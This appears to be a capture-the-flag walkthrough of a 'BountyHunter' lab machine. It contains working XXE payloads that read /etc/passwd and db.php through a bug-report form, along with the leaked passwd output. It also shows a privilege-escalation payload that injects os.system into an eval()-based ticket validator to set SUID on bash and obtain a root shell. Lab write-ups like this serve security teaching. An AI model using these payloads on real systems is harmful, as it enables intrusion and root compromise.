

# NMAP

```sh
PORT      STATE  SERVICE REASON       VERSION
22/tcp    open   ssh     syn-ack      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDLosZOXFZWvSPhPmfUE7v+PjfXGErY0KCPmAWrTUkyyFWRFO3gwHQMQqQUIcuZHmH20xMb+mNC6xnX2TRmsyaufPXLmib9Wn0BtEYbVDlu2mOdxWfr+LIO8yvB+kg2Uqg+QHJf7SfTvdO606eBjF0uhTQ95wnJddm7WWVJlJMng7+/1NuLAAzfc0ei14XtyS1u6gDvCzXPR5xus8vfJNSp4n4B5m4GUPqI7odyXG2jK89STkoI5MhDOtzbrQydR0ZUg2PRd5TplgpmapDzMBYCIxH6BwYXFgSU3u3dSxPJnIrbizFVNIbc9ezkF39K+xJPbc9CTom8N59eiNubf63iDOck9yMH+YGk8HQof8ovp9FAT7ao5dfeb8gH9q9mRnuMOOQ9SxYwIxdtgg6mIYh4PRqHaSD5FuTZmsFzPfdnvmurDWDqdjPZ6/CsWAkrzENv45b0F04DFiKYNLwk8xaXLum66w61jz4Lwpko58Hh+m0i4bs25wTH1VDMkguJ1js=
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKlGEKJHQ/zTuLAvcemSaOeKfnvOC4s1Qou1E0o9Z0gWONGE1cVvgk1VxryZn7A0L1htGGQqmFe50002LfPQfmY=
|   256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJeoMhM6lgQjk6hBf+Lw/sWR4b1h8AEiDv+HAbTNk4J3
80/tcp    open   http    syn-ack      Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA

```
Here  we find only two ports open:
# 22
Let's check which auth methods are allowed on this machine:
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
```

#80
On port 80 we find the webserver running:


If we click on portal we get the following message:

`Portal under development. Go here to test the bounty tracker.`


We see a beta page which might mean the page is not fully tested and therefore can contain some security vulnerabilities.




If we submit the form and capture it with burp we can see encoded data.


In the pagesource we see a link to http://bountyhunter.htb/resources/bountylog.js.
And the the bountySubmit() function is called.


```js
function returnSecret(data) {
	return Promise.resolve($.ajax({
            type: "POST",
            data: {"data":data},
            url: "tracker_diRbPr00f314.php"
            }));
}

async function bountySubmit() {
	try {
		var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>${$('#exploitTitle').val()}</title>
		<cwe>${$('#cwe').val()}</cwe>
		<cvss>${$('#cvss').val()}</cvss>
		<reward>${$('#reward').val()}</reward>
		</bugreport>`
		let data = await returnSecret(btoa(xml));
  		$("#return").html(data)
	}
	catch(error) {
		console.log('Error:', error);
	}
}

```

We can see that an xml data is created and stored in the data variable. The xml is base64 encoded witht hte btoa function:


→ The btoa() method creates a  Base64-encoded ASCII string from a binary string (i.e., a  string in which each character in the string is treated as a byte  of binary data). https://developer.mozilla.org/en-US/docs/Web/API/btoa

If we decode the data in Burp we can reverse this and see the original data:


If we send the data to the server the info we sent is reflected on the page:


# XXE File Read.
On the basis of the information we gathered we can create a payload to read the /etc/passwd file:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE bugreport [
<!ENTITY title SYSTEM "file:///etc/passwd">
]>
		<bugreport>
		<title>&title;</title>
		<cwe>611</cwe>
		<cvss>7.5</cvss>
		<reward>15000000</reward>
		</bugreport>
```

We can encode the payload with base64 and url in burpsuite!


```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```


Boom! We have some users.


We can read the file db.php earlier found during enumeration


```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE bugreport [
<!ENTITY title SYSTEM "php://filter/convert.base64-encode/resource=db.php">
]>
		<bugreport>
		<title>&title;</title>
		<cwe>611</cwe>
		<cvss>7.5</cvss>
		<reward>15000000</reward>
		</bugreport>
```

If we convert this payload to base64 and url-encode it we can sent it to the server.
The server will return the contents of db.php in base64 format. we can simply decode it in burp.


# SSH login

Now we have a username and a password. We can try to login with these to ssh:


# Privesc

In the home directory we see file called contract.txt:


When we type ‘sudo -l’ we can see that we can the we can run /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py as root without a password


The contents of the file are:


One thing we notice immediately is the eval function: validationNumber = eval(x.replace("**", ""))


->Python’s eval() allows you to evaluate arbitrary Python expressions from a string-based or compiled-code-based input. This function can be handy when you’re trying to dynamically evaluate Python expressions from any input that comes as a string or a compiled code object.

But to get to that function we need to go through some checks:

```python
     4  def load_file(loc):
     5      if loc.endswith(".md"):
     6          return open(loc, 'r')
     7      else:
     8          print("Wrong file type.")
     9          exit()

```


The file ticket that needs to be read has to have a ‘.md’ extension.
We can test this by creating a .txt and .md file and pass it to the program:


    11  def evaluate(ticketFile):
    12      #Evaluates a ticket to check for ireggularities.
    13      code_line = None
    14      for i,x in enumerate(ticketFile.readlines()):
    15          if i == 0:
    16              if not x.startswith("# Skytrain Inc"):
    17                  return False


Next: The first line has to start with ‘# Skytrain Inc’ and the second line with ‘## Ticket to ’

```python
    14      for i,x in enumerate(ticketFile.readlines()):
    15          if i == 0:
    16              if not x.startswith("# Skytrain Inc"):
    17                  return False
    18              continue
    19          if i == 1:
    20              if not x.startswith("## Ticket to "):
    21                  return False
    22              print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
    23              continue

```

Again we can check this by adding these two lines to the .md file:
```md
# Skytrain Inc
## Ticket to ransomware 
```


```python
    25          if x.startswith("__Ticket Code:__"):
    26              code_line = i+1
    27              continue
```

The next line (3rd) has to start ‘__Ticket Code:__’ and has to start with ‘**’:

```python
    29          if code_line and i == code_line:
    30              if not x.startswith("**"):
    31                  return False
```

Our .md file now looks like this:

```md
# Skytrain Inc
## Ticket to ransomware 
__Ticket Code:__
**
```

Now the last part:

```python
    32              ticketCode = x.replace("**", "").split("+")[0]
    33              if int(ticketCode) % 7 == 4:
    34                  validationNumber = eval(x.replace("**", ""))
    35                  if validationNumber > 100:
    36                      return True
```

In line 32 ‘**’ gets replaced by nothing. and the string gets splitted at “+". Only the first part before the “+” gets stored in the ticketCode variable.

The ticketCode must be a value that the remainder of modulo 7 equals 4. To get a complete valid ticket the ticketCode needs to be above 100.

our test.md valid ticket looks like this:
```md
# Skytrain Inc
## Ticket to ransomware
__Ticket Code:__
**144
```


in line 32 the complete line (string) in the test.md ticket gets evaluated. To exploit this we can add our python code behind the 144 seperated by a ‘+’:

```
# Skytrain Inc
## Ticket to ransomware
__Ticket Code:__
**144+__import__('os').system('chmod +s /usr/bin/bash')
```
With this payload we set the SUID bit on /usr/bin/bash. Now can just type ‘bash -p’ to get a root shell as mentioned here: https://gtfobins.github.io/gtfobins/bash/#suid


